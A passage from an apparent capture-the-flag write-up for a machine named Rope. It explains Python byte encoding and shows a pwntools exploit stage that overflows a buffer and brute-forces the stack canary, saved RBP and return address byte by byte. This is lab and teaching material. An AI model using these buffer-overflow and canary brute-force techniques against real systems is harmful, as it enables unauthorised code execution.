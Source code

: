 

However, for any character non-ascii (128 or greater), it adds a second
byte:



    >>> chr(253).encode()
    b'\xc3\xbd'



`i.to_bytes(1,'big')` works, where the endian can be `big` or `little`,
since it's only one byte.



    >>> x = 127; x.to_bytes(1,'big')
    b'\x7f'
    >>> x = 253; x.to_bytes(1,'big')
    b'\xfd'



I also had fun playing with `log.progress`. It allows me to make a live
updating line during the loop:

![](/img/rope-brute.gif)

I'll call `brute_word` with this code:



    ### Stage 0: Brute force addresses
    log.info("Starting brute force")
    exploit = b"A"*56
    canary = brute_word(exploit, 8, 'Canary')
    #canary = p64(0xc3c00f67449ca300)
    exploit += canary


    rbp = brute_word(exploit, 8, 'RBP')
    #rbp = p64(0x00007ffdf7d5285c)
    exploit += rbp

    ret = brute_word(exploit, 7, 'Return Address', b'\x62')
    #ret = p64(0x0000556ff9dd4562)



The canary and RBP brute force without issue. There is a problem with
the return address in that many least significant bytes will not crash
the program immediately. But I need to know this address to find the
base of the program. Luckily, I can know it will always be 0x62 (more on
that in a minute), so I force that here.

This brute forcing is slow. During testing, once I brute forced it once
and knew it hadn't changed, I would often comment out those parts and
hard code in these words. Since solving Rope, I learned a bit about
Async programming in Python, and may at some point write a post
implementing those techniques to solve this significantly faster.
